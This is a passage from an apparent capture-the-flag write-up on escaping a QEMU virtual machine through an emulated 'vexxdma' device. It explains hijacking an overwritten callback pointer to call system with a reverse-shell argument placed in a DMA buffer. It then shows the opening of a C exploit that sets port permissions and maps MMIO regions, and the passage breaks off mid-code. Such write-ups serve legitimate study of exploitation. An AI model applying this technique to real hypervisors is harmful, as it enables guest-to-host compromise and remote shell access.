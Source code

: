 If we continue from here, we can see that qemu segfaults on a call to r14 which holds the value to **cb** that we overwrite. We can also see that the rdi register is set to the overwritten value of **opaque** which will function as an argument to the called function.

![](/images/1_LXcGfISOvk2ZgKr2wFvzRg.png)

![](/images/1_KH-uyZrvp40-qw_x6pPsWg.png)

# Exploitation

So with this vulnerability, we essentially have the ability to call an arbitrary address and pass along a controlled parameter. The first thought is to make a call to **system** and pass along an argument to establish a reverse shell. The one caveat to this is that the **opaque** field which will contain the argument for our call to **system** behaves as a pointer so we can’t just write our argument string to that field. Instead, we need to write the argument string somewhere else and then reference it in the **opaque** field. Looking back at the vexxdma structure where our target exists, we can see another char buffer called **dma_buf** which appears to be a good location to store our argument string.

![](/images/1_JXs6ls7kr-0Cn2nsxF6v5Q.png)

After making these adjustments, our final exploit is as follows:

```
#include <stdio.h>  
#include <stdlib.h>  
#include <string.h>  
#include <sys/io.h>  
#include <sys/types.h>  
#include <sys/stat.h>  
#include <sys/mman.h>  
#include <fcntl.h>  
	  
#define OFF_PORT 0x240  
#define MOD_PORT 0x230  
  
int main(int argc, char *argv[]) {  
    //Adjust permissions on ports 0x240 and 0x230  
    if(ioperm(OFF_PORT, 3, 1)) {  
        exit(1);  
    }  
    if(ioperm(MOD_PORT, 3, 1)) {  
        exit(2);  
    }  
      
    //set offset to 0xFF  
    outb(0xFF, OFF_PORT);  
      
    //set memorymode to 0x1  
    outb(0x1, MOD_PORT);  
    //open resource file associated with vexx_cmb MMIO region  
    int cfd = open(argv[1], O_RDWR|O_SYNC);  
    if(cfd < 0) {  
        exit(3);  
    }  
      
    //open resource file associated with vexx_mmio MMIO region  
    int mfd = open(argv[2], O_RDWR|O_SYNC);  
    if(mfd < 0) {  
        exit(4);  
    }  
    //create vexx_cmb mapping  
    void *cmb = mmap(NULL, 0x4000,   
```